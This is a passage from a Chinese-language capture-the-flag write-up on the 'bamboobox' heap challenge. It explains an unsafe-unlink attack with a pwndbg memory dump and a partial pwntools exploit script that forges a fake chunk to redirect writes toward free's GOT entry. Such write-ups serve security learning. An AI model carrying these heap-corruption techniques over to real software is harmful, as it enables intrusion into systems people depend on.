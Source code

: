 unlink后形成的chunk我们再去写入的话不是写到chunk上了

是写到堆存放的数组上去啦，如下代码块所示，0x602018就是free的got表地址0x40是chunk0的大小

我们要填充 payload = p64(0) * 2的原因是因为

此时ptr=ptr-0x18

我们不难看出要想骗过程序检测还要修改chunk的大小标识

所以补上0x10 就是ptr-0x8 ptr就是0x6020c8（具体是为什么我在第一题unlink中有提到）

所以ptr-0x8就是数组首地址可以让我们去控制他的大小标识 ，绕过检测完美哦

其他的话就没什么好说的了。

```
pwndbg> x/32gx 0x6020C0
0x6020c0 <itemlist>:	0x0000000000000040	0x0000000000602018
0x6020d0 <itemlist+16>:	0x0000000000000000	0x0000000000000000
0x6020e0 <itemlist+32>:	0x0000000000000080	0x00000000006f3110
0x6020f0 <itemlist+48>:	0x0000000000000020	0x00000000006f31a0
0x602100 <itemlist+64>:	0x0000000000000000	0x0000000000000000

```



```python
from pwn import *
r=process('./bamboobox')
#r=remote('node4.buuoj.cn','27243')
from LibcSearcher import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
elf=ELF('./bamboobox')

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
free_got = elf.got['free']

def add(length,context):
	r.sendlineafter('Your choice:',str(2))
	r.sendlineafter('Please enter the length of item name:',str(length))
	r.sendafter('Please enter the name of item:',str(context))

def dele(idx):
	r.sendlineafter('Your choice:',str(4))
	r.sendlineafter('Please enter the index of item:',str(idx))

def edit(idx,length,context):
	r.sendlineafter('Your choice:',str(3))
	r.sendlineafter('Please enter the index of item:',str(idx))
	r.sendlineafter('Please enter the length of item name:',str(length))
	r.sendafter('Please enter the new name of the item:',str(context))
def show():
    r.recvuntil("Your choice:")
    r.sendline(str(1))

fd=0x6020c8-0x18
bk=0x6020c8-0x10
add(0x40,'a')#0
add(0x80,'a')#1
add(0x80,'a')#2
add(0x20,'/bin/sh\x00')#3
payload=p64(0)+p64(0x41)+p64(fd)+p64(bk)+'a'*0x20+p64(0x40)+p64(0x90)
edit(0,len(payload),payload)
dele(1)
```